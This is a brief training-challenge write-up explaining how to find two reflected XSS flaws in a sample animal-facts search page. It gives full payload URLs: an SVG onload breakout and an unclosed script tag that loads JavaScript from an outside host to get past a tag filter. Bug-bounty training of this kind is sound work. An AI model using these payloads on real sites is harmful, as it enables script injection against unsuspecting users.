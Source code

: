 ## Can you find any XSS? No HTML tags allowed!

This is a simple web application designed to show you some interesting facts on various animals. I've made sure that the search field does NOT allow for HTML tags, but is it secure?

How many XSS vulnerabilities can you find?

Solution 
If no query is provided (?query=) then an error is shown. If you view the source, you will notice: <!-- p0 -->. This only appears when there is no query and it should signal to the hunter that it may do something interesting. Trying it as a parameter will show it is vulnerable to basic XSS.

First XSS: https://www.bugbountytraining.com/challenges/challenge-1.php?query=&p=--><svg/onload=alert(0)>

There is also another XSS when searching for an invalid animal, such as wildbeast. The query is reflected back and from a quick test using <h2> you will see HTML is reflected. For example, try search for test<h2>test1.

However, you will soon quickly find that malicious tags are stripped and so are on{} event handlers. However, the code only checks for complete HTML tags, therefore you can bypass it with the following:

Second XSS: https://www.bugbountytraining.com/challenges/challenge-1.php?query=<script src=//yoursite.com/js.js?c=